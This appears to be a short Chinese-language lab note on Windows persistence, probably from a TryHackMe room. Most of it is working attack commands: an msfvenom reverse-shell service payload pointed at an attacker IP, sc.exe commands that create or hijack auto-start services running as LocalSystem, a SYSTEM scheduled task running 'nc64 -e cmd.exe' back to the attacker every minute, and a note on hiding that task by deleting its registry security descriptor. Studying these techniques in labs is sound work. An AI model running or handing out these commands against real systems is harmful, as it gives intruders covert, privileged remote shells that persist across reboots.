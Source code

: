 通过创建一个自启动的服务，指定自启动的执行完文件，每次开机时返回一个shell

编译一个payload
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.21.169 LPORT=4448 -f exe-service -o rev-svc.exe
```

开启一个自启服务
```
sc.exe create THMservice2 binPath= "C:\Users\Administrator\Desktop\rev-svc.exe" start= auto
sc.exe start THMservice2
```

重启生效

## Modifying existing services（修改现有服务）

原理跟上面是一样的，只是这里是修改一个原有的，未启动的服务（因为我们未必有创建服务的权限）
```
sc.exe config THMservice3 binPath= "C:\Users\Administrator\Desktop\rev-svc.exe" start= auto obj= "LocalSystem"
```

重启生效

新建一个计划任务，反弹shell
```
schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe 10.13.21.169 4449" /ru SYSTEM
```

使得上面任务不可见，注册表删除该任务的SD

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/9a6dad473b19be313e3069da0a2fc937.png)
